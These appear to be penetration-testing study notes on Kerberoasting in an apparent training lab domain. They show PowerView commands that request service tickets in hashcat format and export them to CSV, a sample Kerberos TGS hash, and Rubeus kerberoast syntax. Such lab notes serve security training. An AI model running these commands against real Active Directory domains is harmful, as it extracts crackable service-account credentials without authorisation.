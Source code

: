### Targeting a specific user to retrieve TGS ticket in hashcat format using powerview
#powerview #specificuserTGS #TGS #kerberos 

```powershell
PS C:\EP> Get-DomainUser -Identity <user> | Get-DomainSPNTicket -Format Hashcat
```

Finally, we can export all tickets to a CSV file for offline processing.

#### Exporting All Tickets to a CSV File
```powershell
PS C:\EP> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\<filename>.csv -NoTypeInformation
```
#### Viewing the Contents of the .CSV File

  Viewing the Contents of the .CSV File

```powershell-session
PS C:\htb> cat .\ilfreight_tgs.csv

"SamAccountName","DistinguishedName","ServicePrincipalName","TicketByteHexStream","Hash"
"adfs","CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL","adfsconnect/azure01.inlanefreight.local",,"$krb5tgs$23$*adfs$INLANEFREIGHT.LOCAL$adfsconnect/azure01.inlanefreight.local*$59C086008BBE7EAE4E483506632F6EF8$622D9E1DBCB1FF2183482478B5559905E0CCBDEA2B52A5D9F510048481F2A3A4D2CC47345283A9E71D65E1573DCF6F2380A6FFF470722B5DEE704C51FF3A3C2CDB2945CA56F7763E117F04F26CA71EEACED25730FDCB06297ED4076C9CE1A1DBFE961DCE13C2D6455339D0D90983895D882CFA21656E41C3DDDC4951D1031EC8173BEEF9532337135A4CF70AE08F0FB34B6C1E3104F35D9B84E7DF7AC72F514BE2B346954C7F8C0748E46A28CCE765AF31628D3522A1E90FA187A124CA9D5F911318752082FF525B0BE1401FBA745E1

<SNIP>
```

## Using Rubeus
#rubeus #activedirectory #kerberos #kerberoast 

 [Rubeus](https://github.com/GhostPack/Rubeus)

  
Using Rubeus

```powershell-session
PS C:\htb> .\Rubeus.exe

<SNIP>

Roasting:

    Perform Kerberoasting:
Rubeus.exe kerberoast [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting, outputting hashes to a file:
        Rubeus.exe kerberoast /outfile:hashes.txt [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps]

    Perform Kerberoasting, outputting hashes in the file output format, but to the console:
        Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with alternate credentials:
        Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with an existing TGT:
```